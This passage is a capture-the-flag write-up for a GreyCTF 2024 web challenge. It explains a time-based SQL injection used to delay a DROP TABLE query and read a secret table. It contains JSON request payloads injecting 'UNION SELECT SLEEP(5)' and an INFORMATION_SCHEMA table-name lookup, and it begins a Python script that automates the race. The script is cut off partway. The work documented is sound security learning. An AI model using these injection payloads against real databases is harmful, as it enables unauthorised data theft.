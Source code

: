   - We have to retrieve the secret of current user to gain the flag, but the question is: How to do it when the table is dropped immediately?
  - Notice that all function in the source code is *asynchronous*, so I think that there is a way to make the DROP TABLE query become slower. And, what we are going to do here is time-based SQL injection
  - The idea is, if we make the database sleep, the DROP TABLE query will not be executed, so it's possible to retrieve the secret.

# Attack
- First, we have to create a new user:

  ![image](https://github.com/NoSpaceAvailable/GreyCTF2024/assets/143888307/f86d6edc-98e8-43da-9442-929515fa084a)

- Then use that user id to perform query. I used SELECT SLEEP(5) and notice that the server is delayed for 5 seconds:
  
  ```json
    {
      "user_id":10386588119072549375,
      "query_string":"a' UNION SELECT SLEEP(5);-- "
    }
  ```

  ![image](https://github.com/NoSpaceAvailable/GreyCTF2024/assets/143888307/36160c0b-7c0b-4d48-9061-2fe86b3dbe7a)

- Looking at the source code, the table name's format will always be "tbl_....." so I use this query to retrieve the table name:
  
  ```json
    {
      "user_id":10386588119072549375,
      "query_string":"abc' UNION SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_name LIKE 'tbl_%'; -- "
    }
  ```

  ![image](https://github.com/NoSpaceAvailable/GreyCTF2024/assets/143888307/5447b218-1d07-40ee-9c81-58cef7a27478)

- But we need to do all these things faster to retrieve the secret table, so I made it a little automation using Python:
    
  ```python
    import requests
    from multiprocessing import Process
    import hashlib
    from time import sleep
    
    URL = "http://challs.nusgreyhats.org:33333"
    """
    Note:
    +> register: POST
    +> query: POST
    +> flag: POST
    +> / : GET
    """
    
    # code by black_phantom@NoSpaceAvailable
    
    def register(session : requests.Session):
        registration = session.post(url=f"{URL}/register").text
        return registration
    
    
    def get_flag(session : requests.Session, uid : int, secret : int):
        return session.post(
            url=f"{URL}/flag",
  ```